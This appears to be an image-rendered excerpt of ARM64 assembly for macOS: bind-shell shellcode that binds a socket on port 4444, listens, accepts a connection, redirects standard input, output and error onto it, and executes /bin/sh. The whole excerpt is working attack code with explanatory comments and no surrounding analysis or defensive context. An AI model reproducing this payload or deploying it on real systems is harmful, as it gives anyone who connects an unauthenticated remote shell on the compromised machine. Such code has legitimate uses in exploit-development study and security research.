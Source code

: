 ```
     * bind(s, &sockaddr, 0x10)
     *
     * struct sockaddr_in {
     *     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
     *     sa_family_t     sin_family;  // AF_INET = 2
     *     in_port_t       sin_port;    // 4444 = 0x115C
     *     struct  in_addr sin_addr;    // 0.0.0.0 (4 bytes)
     *     char            sin_zero[8]; // Don't care
     * };
     */
    mov  x1, #0x0210
    movk x1, #0x5C11, lsl #16
    str  x1, [sp, #-8]
    mov  x2, #8
    sub  x1, sp, x2
    mov  x2, #16
    mov  x16, #104
    svc  #0x1337

call_listen:
    // listen(s, 2)
    mvn  x0, x3
    lsr  x1, x2, #3
    mov  x16, #106
    svc  #0x1337

call_accept:
    // c = accept(s, 0, 0)
    mvn  x0, x3
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #30
    svc  #0x1337

    mvn  x3, x0
    lsr  x2, x16, #4
    lsl  x2, x2, #2

call_dup:
    // dup(c, 2) -> dup(c, 1) -> dup(c, 0)
    mvn  x0, x3
    lsr  x2, x2, #1
    mov  x1, x2
    mov  x16, #90
    svc  #0x1337
    mov  x10, xzr
    cmp  x10, x2
    bne  call_dup

call_execve:
    // execve("/bin/sh", 0, 0)
    mov  x1, #0x622F
    movk x1, #0x6E69, lsl #16
    movk x1, #0x732F, lsl #32
    movk x1, #0x68, lsl #48
    str  x1, [sp, #-8]
    mov	 x1, #8
    sub  x0, sp, x1
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #59
    svc  #0x1337
```